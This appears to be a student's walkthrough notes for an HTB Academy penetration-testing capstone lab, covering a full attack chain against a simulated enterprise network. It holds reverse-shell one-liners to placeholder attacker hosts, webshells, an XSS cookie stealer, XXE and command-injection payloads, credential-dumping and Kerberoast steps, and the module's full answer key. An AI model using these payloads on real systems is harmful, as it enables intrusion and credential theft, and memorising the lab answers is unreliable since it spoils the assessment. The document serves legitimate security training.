

# Attacking Enterprise Networks (HTB Supplementary)

HTB Academy capstone module, chains together every technique from the curriculum into a single end-to-end attack: external recon, web exploitation across nine vhosts, Linux privesc, internal pivoting, Windows exploitation, AD compromise, and deep internal host access. Authors: mrb3n, LTNB0B, Sentinal.

This is a pure skills-validation module. Technique explanations live in the relevant appendix notes, this note documents the chain, the credential harvest sequence, and the new techniques not already in the vault.

---

Tags: #Capstone #AttackChain #ExternalRecon #DNSZoneTransfer #VHostDiscovery #IDOR #HTTPVerbTampering #WordPressRCE #SQLi #XSS #SSRF #CommandInjection #LinuxPrivEsc #AuditLogs #Pivoting #DNN #DotNetNuke #PrintSpoofer #Kerberoasting #DCSync #DirtyPipe #InternalRecon #LateralMovement #ActiveDirectory #HTBSupplementary

---

## Module Q&A Answers

| Section | Q# | Answer |
|---------|---|--------|
| External Information Gathering | Q1 | `1337_HTB_DNS` |
| External Information Gathering | Q2 | `HTB{DNs_ZOn3_Tr@nsf3r}` |
| External Information Gathering | Q3 | `flag.inlanefreight.local` |
| External Information Gathering | Q4 | `monitoring` |
| Service Enumeration & Exploitation | Q1 | `HTB{0eb0ab788df18c3115ac43b1c06ae6c4}` |
| Web Enumeration & Exploitation | Q1 | `HTB{8f40ecf17f681612246fa5728c159e46}` |
| Web Enumeration & Exploitation | Q2 | `HTB{57c7f6d939eeda90aa1488b15617b9fa}` |
| Web Enumeration & Exploitation | Q3 | `HTB{e7134abea7438e937b87608eab0d979c}` |
| Web Enumeration & Exploitation | Q4 | `1fbea4df249ac4f4881a5da387eb297cf` |
| Web Enumeration & Exploitation | Q5 | `HTB{1nS3cuR3_c00k135}` |
| Web Enumeration & Exploitation | Q6 | `HTB{49f0bad299687c62334182178bfd75d8}` |
| Web Enumeration & Exploitation | Q7 | `HTB{32596e8376077c3ef8d5cf52f15279ba}` |
| Web Enumeration & Exploitation | Q8 | `HTB{dbca4dc5d99cdb3311404ea74921553c}` |
| Web Enumeration & Exploitation | Q9 | `HTB{bdd8a93aff53fd63a0a14de4eba4cbc1}` |
| Initial Access | Q1 | `b447c27a00e3a348881b0030177000cd` |
| Post-Exploitation Persistence | Q1 | `a34985b5976072c3c148abc751671302` |
| Internal Information Gathering | Q1 | `bf22a1d0acfca4af517e1417a80e92d1` |
| Exploitation & Privilege Escalation | Q1 | `0e20798f695ab0d04bc138b22344cea8` |
| Exploitation & Privilege Escalation | Q2 | `K33p_0n_sp00fing!` |
| Lateral Movement | Q1 | `!qazXSW@` |
| Lateral Movement | Q2 | `lucky7` |
| Lateral Movement | Q3 | `33a9d46de4015e7b3b0ad592a9394720` |
| Lateral Movement | Q4 | `1squints2` |
| Active Directory Compromise | Q1 | `Repeat09` |
| Active Directory Compromise | Q2 | `7c09eb1fff981654a3bb3b4a4e0d176a` |
| Active Directory Compromise | Q3 | `fd1f7e5564060258ea787ddbb6e6afa2` |
| Post-Exploitation | Q1 | `3c4996521690cc76446894da2bf7dd8f` |
| Post-Exploitation | Q2 | `206c03861986c0e264438cb6e8e90a19` |

---

## Network Topology



---

## Credential Harvest Chain

| Credential | Source technique |
|-----------|-----------------|
| `admin:12qwaszx` | Hydra brute force → monitoring.inlanefreight.local login form |
| `webdev` (shell) | Command injection → socat reverse shell |
| `srvadm:ILFreightnixadm!` | `aureport --tty` reading Linux audit logs |
| `root` (SSH private key) | `sudo openssl enc -in /root/.ssh/id_rsa` (GTFOBins) |
| `Administrator:D0tn31Nuk3R0ck$$@123` | NFS mount DEV01 share → DNN `web.config` |
| `hporter:Gr8hambino!` | `secretsdump LOCAL` DefaultPassword from DPAPI_SYSTEM |
| `backupadm:!qazXSW@` | Snaffler → `IT/Private/Development/SQL Express Backup.ps1` |
| `backupjob:lucky7` | Kerberoast → hashcat -m 13100 |
| `ilfserveradm:Sys26Admin` | `C:\panther\unattend.xml` (AutoLogon block) |
| `mpalledorous:1squints2` | Inveigh NTLMv2 capture → hashcat -m 5600 |
| `mssqladm:DBAilfreight1!` | BloodHound analysis (given in module reading) |
| `ttimmons:Repeat09` | Targeted Kerberoast (fake SPN via Set-DomainObject) → hashcat |
| `Administrator (DC01):fd1f7e5564060258ea787ddbb6e6afa2` | DCSync via secretsdump.py |
| `ssmallsadm` (SSH key) | `C:\Department Shares\IT\Private\Networking\ssmallsadm-id_rsa` |

---

## AEN.1. External Information Gathering

### /etc/hosts setup

The target hosts multiple vhosts. Start by adding the base domain:

```bash
sudo sh -c 'echo "STMIP inlanefreight.local" >> /etc/hosts'
```

Each subsequent section needs its own vhost entry added the same way.

> 📸 Screenshot: /etc/hosts showing all inlanefreight.local vhost entries

### Service banner grab — non-standard BIND version

```bash
sudo nmap -sC -sV inlanefreight.local
```

Expected: DNS on port 53 shows `bind.version: 1337_HTB_DNS`. This is the flag embedded as a banner.

**Q1 answer:** `1337_HTB_DNS`

🔁 Similar to: [[Reconnaissance & Enumeration#Nmap Service Version Scan|Nmap -sV scan]] in the recon appendix.

### DNS Zone Transfer

```bash
dig AXFR inlanefreight.local @STMIP
```

Expected: prints all DNS records. The `flag.inlanefreight.local` TXT record contains the flag. Also reveals all subdomains: blog, careers, dev, gitlab, ir, status, support, tracking, vpn.

**Q2 answer:** `HTB{DNs_ZOn3_Tr@nsf3r}`
**Q3 answer:** `flag.inlanefreight.local`

🔁 Similar to: [[Reconnaissance & Enumeration#DNS Zone Transfer|DNS Zone Transfer]] in the recon appendix.

### VHost discovery

```bash
# Baseline: size of non-existent vhost response
curl -sI http://STMIP/ -H "Host: defnotvalid.inlanefreight.local" | grep "Content-Length:"
# Returns: Content-Length: 15157

# Fuzz for valid vhosts, filtering out baseline size
ffuf -w /opt/useful/SecLists/Discovery/DNS/namelist.txt:FUZZ \
  -u http://STMIP/ \
  -H 'Host: FUZZ.inlanefreight.local' \
  -fs 15157
```

Expected: `monitoring` appears in the results alongside the already-known subdomains from the zone transfer. The zone transfer told us it exists but `monitoring` resolves to `127.0.0.1`, ffuf confirms it's actually served by this host.

**Q4 answer:** `monitoring`

🔁 Similar to: [[Reconnaissance & Enumeration#VHost Fuzzing|VHost fuzzing with ffuf]] in the recon appendix.

---

## AEN.2. Service Enumeration & Exploitation

### FTP anonymous login

```bash
# Add entry if not already present
sudo sh -c 'echo "STMIP inlanefreight.local" >> /etc/hosts'

ftp STMIP
# Username: anonymous
# Password: (any string)

ftp> get flag.txt
ftp> !cat flag.txt
```

Expected: connects as anonymous without issue. `flag.txt` downloads and prints the flag.

**Q1 answer:** `HTB{0eb0ab788df18c3115ac43b1c06ae6c4}`

🔁 Similar to: [[Reconnaissance & Enumeration#FTP Enumeration|FTP anonymous login]] in the recon appendix.

---

## AEN.3. Web Enumeration & Exploitation

Nine separate vhosts, each with a different vulnerability class.

### Q1: IDOR — careers.inlanefreight.local

```bash
sudo sh -c 'echo "STMIP careers.inlanefreight.local" >> /etc/hosts'
```

1. Navigate to `http://careers.inlanefreight.local/register`, register an account.
2. Log in. Your user gets assigned an ID (e.g., `?id=9`).
3. Manually change the `id` parameter in the URL downward (8, 7, 6, 5, 4...).
4. `id=4` returns a profile containing the flag.

> 📸 Screenshot: profile page at id=4 showing HTB flag

**Q1 answer:** `HTB{8f40ecf17f681612246fa5728c159e46}`

🔁 Similar to: [[Web Applications#IDOR|IDOR enumeration]] in the web appendix.

### Q2: HTTP Verb Tampering + File Upload — dev.inlanefreight.local

```bash
sudo sh -c 'echo "STMIP dev.inlanefreight.local" >> /etc/hosts'
```

1. Browse to `http://dev.inlanefreight.local/upload.php` with Burp intercepting.
2. In Repeater: change method from `GET` to `TRACK`. Add header `X-Custom-IP-Authorization: 127.0.0.1`. Send.
3. Response returns the file upload form. Right-click → Show response in browser.
4. Create PHP webshell: `<?php system($_GET['cmd']); ?>`
5. Upload via the form, intercept in Burp. Change `Content-Type: application/x-php` to `Content-Type: image/png`. Forward.
6. Response shows upload path (e.g., `/uploads/shell.php`).

```bash
curl -s "http://dev.inlanefreight.local/uploads/shell.php?cmd=cat+/var/www/html/flag.txt"
```

Expected: returns `HTB{57c7f6d939eeda90aa1488b15617b9fa}`.

**Q2 answer:** `HTB{57c7f6d939eeda90aa1488b15617b9fa}`

🔁 Similar to: [[Web Applications#HTTP Verb Tampering|Verb Tampering]] and [[File Upload Attacks#Content-Type Bypass|Content-Type bypass]] in the web and file upload appendices.

### Q3: WordPress RCE — ir.inlanefreight.local

```bash
sudo sh -c 'echo "STMIP ir.inlanefreight.local" >> /etc/hosts'

# Enumerate users
wpscan --url http://ir.inlanefreight.local -e u -t 500 --no-banner

# Brute force ilfreightwp
wpscan --url http://ir.inlanefreight.local \
  -P /usr/share/SecLists/Passwords/darkweb2017-top100.txt \
  -U ilfreightwp --no-banner -t 500
```

Expected: password found = `password1`.

1. Log in at `http://ir.inlanefreight.local/wp-login.php` with `ilfreightwp:password1`.
2. Appearance → Theme Editor → Select "Twenty Twenty" → 404 Template (404.php).
3. After `<?php` insert: `exec("/bin/bash -c 'bash -i > /dev/tcp/PWNIP/PWNPO 0>&1'");`
4. Update file.

```bash
# Listener
sudo nc -nvlp PWNPO
```

5. Navigate to `http://ir.inlanefreight.local/wp-content/themes/twentytwenty/404.php`, triggers the shell.

```bash
cat /var/www/html/flag.txt
```

Expected: `HTB{e7134abea7438e937b87608eab0d979c}`.

**Q3 answer:** `HTB{e7134abea7438e937b87608eab0d979c}`

🔁 Similar to: [[Common Applications#WordPress|WordPress RCE via theme editor]] in the common apps appendix.

### Q4: SQLi — status.inlanefreight.local

```bash
sudo sh -c 'echo "STMIP status.inlanefreight.local" >> /etc/hosts'
```

1. Browse to `http://status.inlanefreight.local`. Search form visible.
2. With Burp, submit a search and save the request to `Request.req`. Set `searchitem=*` in the saved file.

```bash
sqlmap -r Request.req --dbms=mysql --dump -D status -T users --batch
```

Expected: table shows two rows. Row with id=2 (username: Flag) has password `1fbea4df249ac4f4881a5da387eb297cf`.

**Q4 answer:** `1fbea4df249ac4f4881a5da387eb297cf`

🔁 Similar to: [[SQL Injection & Databases#sqlmap -r|sqlmap -r file injection]] in the SQL appendix.

### Q5: Stored XSS + Cookie Theft — support.inlanefreight.local

```bash
sudo sh -c 'echo "STMIP support.inlanefreight.local" >> /etc/hosts'
```

1. Create `index.php` on Kali to log cookies:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

2. Create `script.js`:

```javascript
new Image().src='http://PWNIP:PWNPO/index.php?c='+document.cookie
```

3. Start PHP server: `php -S 0.0.0.0:PWNPO`
4. Navigate to `http://support.inlanefreight.local/ticket.php` → Raise Ticket.
5. In the Message field, inject:

```javascript
><script src=http://PWNIP:PWNPO/script.js></script>
```

6. Wait for admin to view the ticket. PHP server receives the request with the `session=` cookie.
7. In browser: Dev Tools → Storage → Cookies → Create cookie named `session` with captured value.
8. Click Login → lands on admin dashboard. Ticket ID 9818's Status field contains the flag.

**Q5 answer:** `HTB{1nS3cuR3_c00k135}`

🔁 Similar to: [[Web Applications#XSS Cookie Theft|Stored XSS + session hijack]] in the web appendix.

### Q6: SSRF to Local File Read (PDF Injection) — tracking.inlanefreight.local

> ⚠️ **New technique**, see [[Web Applications (Command Appendix)#SSRF via PDF XMLHttpRequest|SSRF PDF local file read]] for the added command.

```bash
sudo sh -c 'echo "STMIP tracking.inlanefreight.local" >> /etc/hosts'
```

1. Navigate to `http://tracking.inlanefreight.local`. There's a "Track Now" form that generates a PDF.
2. The PDF generator executes embedded JavaScript. Inject an XMLHttpRequest payload that reads a local file:

```javascript
<script>
    x=new XMLHttpRequest;
    x.onload=function(){
    document.write(this.responseText)};
    x.open("GET","file:///flag.txt");
    x.send();
</script>
```

3. Submit. The PDF response contains the flag rendered as text.

**Q6 answer:** `HTB{49f0bad299687c62334182178bfd75d8}`

> 📸 Screenshot: PDF rendered in browser showing HTB flag text inside it

**Why it works:** The PDF generation library (wkhtmltopdf or similar) evaluates JavaScript inside the HTML it renders. `XMLHttpRequest` can access `file://` URIs from the server's own filesystem when called from within the server-side rendering context. The generated PDF then includes the local file's contents.

### Q7: GitLab — Register + Explore Projects — gitlab.inlanefreight.local

```bash
sudo sh -c 'echo "STMIP gitlab.inlanefreight.local" >> /etc/hosts'
```

1. Navigate to `http://gitlab.inlanefreight.local` and register an account.
2. After login: Menu → Explore projects.
3. The "Flag" project is public and contains the flag file.

**Q7 answer:** `HTB{32596e8376077c3ef8d5cf52f15279ba}`

Also note the "shopdev2.inlanefreight.local" namespace on the second project, needed for Q8.

🔁 Similar to: [[Common Applications#GitLab|GitLab user/project enumeration]] in the common apps appendix.

### Q8: XXE — shopdev2.inlanefreight.local (via GitLab discovery)

```bash
# Add both GitLab and shopdev2 pointing to the same IP
sudo sh -c 'echo "STMIP shopdev2.inlanefreight.local" >> /etc/hosts'
```

1. Browse to `http://shopdev2.inlanefreight.local`. Credentials: `admin:admin`.
2. Add items to cart, click MY CART, then complete purchase, intercept the XML POST in Burp.
3. Send to Repeater. Replace XML body with XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///flag.txt">
]>
<root>
    <subtotal>undefined</subtotal>
    <userid>&xxetest;</userid>
</root>
```

4. Send. Response body contains the flag.

**Q8 answer:** `HTB{dbca4dc5d99cdb3311404ea74921553c}`

🔁 Similar to: [[Web Applications#XXE Injection|XXE file read]] in the web appendix.

### Q9: Command Injection — monitoring.inlanefreight.local

```bash
sudo sh -c 'echo "STMIP monitoring.inlanefreight.local" >> /etc/hosts'

# Brute force admin login
hydra -l admin \
  -P /usr/share/SecLists/Passwords/darkweb2017-top100.txt \
  "http-post-form://monitoring.inlanefreight.local/login.php:username=admin&password=^PASS^:Invalid Credentials!"
```

Expected: `admin:12qwaszx`.

1. Login. The web terminal has a `connection_test` command.
2. Intercept the `connection_test` request in Burp. The URL sends `?ip=127.0.0.1`.
3. The `%0a` (newline) injection operator bypasses the filter. Space bypass: `${IFS}`.

```http
GET /ping.php?ip=127.0.0.1%0als HTTP/1.1
# Lists files — finds 00112233_flag.txt

GET /ping.php?ip=127.0.0.1%0acat${IFS}00112233_flag.txt HTTP/1.1
```

Expected: returns `HTB{bdd8a93aff53fd63a0a14de4eba4cbc1}`.

**Q9 answer:** `HTB{bdd8a93aff53fd63a0a14de4eba4cbc1}`

🔁 Similar to: [[Web Applications#Command Injection Filter Bypass|Command injection bypass operators]] in the web appendix.

---

## AEN.4. Initial Access — Shell on DMZ01

Continuing from the monitoring.inlanefreight.local command injection, pivot from a code-exec to an interactive shell.

### socat reverse shell via command injection

```bash
# Terminal 1: nc listener
nc -nvlp 8443
```

Burp Repeater payload:

```http
GET /ping.php?ip=127.0.0.1%0a's'o'c'a't'${IFS}TCP4:PWNIP:8443${IFS}EXEC:bash HTTP/1.1
```

> The quotes around `socat` (`'s'o'c'a't'`) bypass a command blacklist filter by splitting the word.

```bash
# Terminal 2: upgrade to interactive TTY
nc -nvlp 4443
```

From the dumb socat shell:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:PWNIP:4443
```

Expected: full interactive shell as `webdev@dmz01`.

### Credential discovery via audit logs

> ⚠️ **New technique**, `aureport --tty` reads Linux audit daemon TTY records. When the `adm` group (or root) can read audit logs, prior interactive commands (including passwords typed to `su`) appear in cleartext. Added to [[Linux Privilege Escalation (Command Appendix)#aureport TTY Credential Hunt|Linux PrivEsc appendix]].

```bash
aureport --tty | less
```

Expected output includes:

```
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",<nl>
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"
```

The password `ILFreightnixadm!` was typed to `su srvadm` and recorded by the audit daemon.

```bash
su srvadm
# Password: ILFreightnixadm!

cat /home/srvadm/flag.txt
# b447c27a00e3a348881b0030177000cd
```

**Q1 answer:** `b447c27a00e3a348881b0030177000cd`

> 📸 Screenshot: aureport --tty output showing ILFreightnixadm! in the su entry, then cat of flag.txt

---

## AEN.5. Post-Exploitation Persistence — Root on DMZ01

### sudo -l shows openssl NOPASSWD

```bash
ssh srvadm@STMIP  # password: ILFreightnixadm!
bash -i
sudo -l
```

Expected: `(ALL) NOPASSWD: /usr/bin/openssl`

### GTFOBins openssl → read root SSH key

```bash
LFILE=/root/.ssh/id_rsa
sudo /usr/bin/openssl enc -in $LFILE
```

Expected: prints the full private key in PEM format. Copy it to `id_rsa` on Kali.

🔁 Similar to: [[Linux Privilege Escalation#sudo GTFOBins|sudo GTFOBins, openssl]] in the Linux PrivEsc appendix.

```bash
chmod 600 id_rsa
sudo ssh -i id_rsa root@STMIP

cat flag.txt  # a34985b5976072c3c148abc751671302
```

**Q1 answer:** `a34985b5976072c3c148abc751671302`

> 📸 Screenshot: sudo -l output, openssl enc dumping private key, SSH as root, cat flag.txt

---

## AEN.6. Internal Information Gathering — Pivot via SSH -D

### Set up SOCKS proxy for internal access

```bash
ssh -D 9050 -i id_rsa root@STMIP
```

proxychains.conf already has `socks4 127.0.0.1 9050` by default, so no edits needed.

```bash
# Confirm connectivity to internal targets
proxychains nmap -sT -p 21,22,80,8080 172.16.8.120 -Pn
```

### NFS share enumeration

From root on DMZ01 (not via proxychains, you're already on DMZ01 via SSH):

```bash
# On DMZ01 as root:
mkdir /tmp/DEV01
mount -t nfs 172.16.8.20:/DEV01 /tmp/DEV01/
cat /tmp/DEV01/flag.txt
# bf22a1d0acfca4af517e1417a80e92d1
```

**Q1 answer:** `bf22a1d0acfca4af517e1417a80e92d1`

**Also enumerate the share for credentials:**

```bash
cat /tmp/DEV01/DNN/web.config
```

Expected: XML config file with:

```xml
<username>Administrator</username>
<password>
    <value>D0tn31Nuk3R0ck$$@123</value>
</password>
```

This is the DNN (DotNetNuke) admin password for 172.16.8.20.

> 📸 Screenshot: mount output, flag.txt contents, web.config showing Administrator password

---

## AEN.7. Exploitation & Privilege Escalation — DEV01 (172.16.8.20)

> ⚠️ **New technique**. DNN (DotNetNuke) exploitation. See [[Common Applications (Command Appendix)#DNN DotNetNuke|DNN appendix entry]].

### Access DNN via proxied browser

With SSH -D 9050 active:

```bash
proxychains firefox 172.16.8.20
```

Login with `Administrator:D0tn31Nuk3R0ck$$@123`.

### Enable xp_cmdshell via SQL Console

1. Settings → SQL Console:

```sql
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

2. Test: run `xp_cmdshell 'whoami'` → confirms execution as `iis apppool\dotnetnukeapppool`.

### Whitelist extensions and upload webshell

1. Admin → Extensions → Allowable File Extensions: add `asp,aspx,exe,SAVE`.
2. Admin → File Management: upload `newcmdasp.asp` (download from GitHub).
3. Click the uploaded file → webshell accessible.

### PowerShell reverse shell to DMZ01

Start nc listener on DMZ01 (ssh session as root):

```bash
# On DMZ01:
nc -nvlp 9999
```

Get DMZ01's internal IP:

```bash
ip a show ens192 | grep "inet" -m 1
# 172.16.8.120
```

From the ASP webshell, submit:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('172.16.8.120',9999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Expected: shell as `iis apppool\dotnetnukeapppool` arrives on nc listener.

### SeImpersonatePrivilege → SYSTEM via PrintSpoofer

Upload `PrintSpoofer64.exe` and `nc.exe` via DNN File Manager. Start another nc listener on DMZ01:

```bash
# On DMZ01:
nc -nvlp 9999
```

From the PowerShell reverse shell:

```powershell
c:\DotNetNuke\Portals\0\PrintSpoofer64.exe -c "c:\DotNetNuke\Portals\0\nc.exe 172.16.8.120 9999 -e cmd"
```

Expected: `[+] Found privilege: SeImpersonatePrivilege` → SYSTEM shell arrives.

🔁 Similar to: [[Windows Privilege Escalation#SeImpersonatePrivilege|PrintSpoofer via MSSQL/web shell]] in the Windows PrivEsc appendix.

### SAM dump → hashes

```cmd
cd c:\dotnetnuke\portals\0\
reg save HKLM\SYSTEM SYSTEM.SAVE
reg save HKLM\SECURITY SECURITY.SAVE
reg save HKLM\SAM SAM.SAVE
```

Download all three via DNN File Manager. Then on Kali:

```bash
secretsdump.py LOCAL \
  -system ~/Downloads/SYSTEM.SAVE \
  -sam ~/Downloads/SAM.SAVE \
  -security ~/Downloads/SECURITY.SAVE
```

Expected output includes:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e20798f695ab0d04bc138b22344cea8:::
[*] DefaultPassword
(Unknown User):Gr8hambino!   ← this is hporter's password
```

**Q1 answer:** `0e20798f695ab0d04bc138b22344cea8` (Administrator NT hash)

```cmd
type C:\Users\Administrator\Desktop\flag.txt
# K33p_0n_sp00fing!
```

**Q2 answer:** `K33p_0n_sp00fing!`

> 📸 Screenshot: secretsdump LOCAL output showing hporter's DefaultPassword and Administrator hash, then flag on Desktop

---

## AEN.8. Lateral Movement

### Setup: RDP via SSH local port forward

```bash
# Terminal 1: local port forward (DEV01 RDP → local port 1337)
ssh -i id_rsa -L 1337:172.16.8.20:3389 root@STMIP

# Terminal 2: dynamic forward for proxychains
ssh -i id_rsa -D 9050 root@STMIP

# RDP as hporter (creds from secretsdump DefaultPassword)
xfreerdp /v:127.0.0.1:1337 /u:hporter /p:Gr8hambino! /drive:home,$(pwd)
```

### Q1: Backup script with cleartext credentials

In the RDP session on DEV01:

```powershell
Import-Module .\PowerView.ps1

# Reset ssmalls password so we can spider shares
Set-DomainUserPassword -Identity ssmalls \
  -AccountPassword (ConvertTo-SecureString 'Pwned123' -AsPlainText -Force) -Verbose

# Run Snaffler to find interesting files
.\Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
```

Snaffler finds `\\DC01.INLANEFREIGHT.LOCAL\Department Shares` and flags a file in `NETLOGON`.

```bash
# From Kali, via proxychains, pull the backup script
proxychains smbclient -U ssmalls '//172.16.8.3/Department Shares'
# Password: Pwned123
smb: \> get IT\Private\Development\"SQL Express Backup.ps1"
```

The script contains:

```powershell
$mySrvConn.Login = "backupadm"
$mySrvConn.Password = "!qazXSW@"
```

**Q1 answer:** `!qazXSW@`

🔁 Similar to: [[Active Directory#Snaffler|Snaffler share hunting]] and [[Active Directory#ACL Abuse|Set-DomainUserPassword]] in the AD appendix.

### Q2: Kerberoasting → backupjob

```bash
sudo proxychains GetUserSPNs.py -dc-ip 172.16.8.3 \
  INLANEFREIGHT.LOCAL/hporter \
  -request -outputfile SPNS
# Password: Gr8hambino!

hashcat -O -w 3 -m 13100 SPNS /usr/share/wordlists/rockyou.txt.gz
```

Expected: `backupjob/veam001.inlanefreight.local` cracks to `lucky7`.

**Q2 answer:** `lucky7`

🔁 Similar to: [[Active Directory#Kerberoasting|GetUserSPNs.py Kerberoasting]] in the AD appendix.

### Q3: MS01 privesc via SysaxAutomation — ilfserveradm → local admin

> ⚠️ **New technique**. SysaxAutomation file-triggered task privilege escalation. See [[Windows Privilege Escalation (Command Appendix)#SysaxAutomation Privilege Escalation|Windows PrivEsc appendix entry]].

```bash
# Connect to MS01 via evil-winrm with backupadm creds
proxychains evil-winrm -i 172.16.8.50 -u backupadm
# Password: !qazXSW@
```

Enumerate credential files:

```powershell
type C:\panther\unattend.xml
# AutoLogon block: ilfserveradm:Sys26Admin
```

```bash
# RDP to MS01 as ilfserveradm
proxychains xfreerdp /v:172.16.8.50 /u:ilfserveradm /p:Sys26Admin
```

In the RDP session, create a batch script at `C:\Users\ilfserveradm\Documents\pwn.bat`:

```cmd
net localgroup administrators ilfserveradm /add
```

Open `sysaxschedscp.exe` → Setup Scheduled/Triggered Tasks → Add task (Triggered):
- Folder to Monitor: `C:\Users\ilfserveradm\Documents\`
- Check: "Run task if a file is added to the monitor folder"
- Program to run: `C:\Users\ilfserveradm\Documents\pwn.bat`
- Uncheck "Login as the following user"
- Click Finish

Create any new file in `C:\Users\ilfserveradm\Documents\` to trigger the task. The batch runs as SYSTEM (SysaxAutomation service context), adding ilfserveradm to local admins.

Confirm: `net localgroup administrators` shows ilfserveradm.

Read the flag (supply credentials when prompted):

```cmd
type C:\Users\Administrator\Desktop\flag.txt
# 33a9d46de4015e7b3b0ad592a9394720
```

**Q3 answer:** `33a9d46de4015e7b3b0ad592a9394720`

> 📸 Screenshot: SysaxAutomation task trigger config, net localgroup showing ilfserveradm as admin, flag read

### Q4: Inveigh LLMNR capture → mpalledorous hash

From the MS01 RDP session (now as elevated ilfserveradm), copy `Inveigh.ps1` over and run as admin:

```powershell
Import-Module .\Inveigh.ps1
Invoke-Inveigh -ConsoleOutput Y -FileOutput Y
```

Wait. A user on the network (mpalledorous) sends an LLMNR query. Inveigh captures:

```
MPALLEDOROUS::ACADEMY-AEN-DEV:477F4C13CB9A1D84:<hash>
```

Copy hash to Kali, crack with hashcat:

```bash
hashcat -m 5600 -O -w 3 hash /usr/share/wordlists/rockyou.txt.gz
# Result: 1squints2
```

**Q4 answer:** `1squints2`

🔁 Similar to: [[Active Directory#LLMNR Poisoning Inveigh|Inveigh LLMNR poisoning]] in the AD appendix.

---

## AEN.9. Active Directory Compromise

### Q1: Targeted Kerberoast — ttimmons

Use the mssqladm account (credentials from BloodHound analysis: `mssqladm:DBAilfreight1!`) to set a fake SPN on ttimmons. From the DEV01 RDP session with PowerView loaded:

```powershell
$SecPassword = ConvertTo-SecureString 'DBAilfreight1!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\mssqladm', $SecPassword)
Set-DomainObject -Credential $Cred -Identity ttimmons \
  -SET @{serviceprincipalname='acmetesting/LEGIT'} -Verbose
```

Expected: `VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'acmetesting/LEGIT' for object 'ttimmons'`

```bash
sudo proxychains GetUserSPNs.py -dc-ip 172.16.8.3 \
  INLANEFREIGHT.LOCAL/mssqladm \
  -request-user ttimmons
# Password: DBAilfreight1!

hashcat -m 13100 -O -w 3 hash /usr/share/wordlists/rockyou.txt.gz
# Result: Repeat09
```

**Q1 answer:** `Repeat09`

🔁 Similar to: [[Active Directory#Targeted Kerberoast via Set-DomainObject|Set-DomainObject fake SPN + GetUserSPNs]] in the AD appendix.

### Q2 & Q3: DCSync → DA flag + Administrator hash

Add ttimmons to Server Admins (which has DCSync rights) using ttimmons's own credentials:

```powershell
$timpass = ConvertTo-SecureString 'Repeat09' -AsPlainText -Force
$timcreds = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\ttimmons', $timpass)
$group = Convert-NameToSid "Server Admins"
Add-DomainGroupMember -Identity $group -Members 'ttimmons' -Credential $timcreds -Verbose
```

DCSync:

```bash
sudo proxychains secretsdump.py ttimmons@172.16.8.3 -just-dc-ntlm
# Password: Repeat09
```

Expected: `Administrator:500:aad3b435b51404eeaad3b435b51404ee:fd1f7e5564060258ea787ddbb6e6afa2:::`

PtH to DC01 via evil-winrm:

```bash
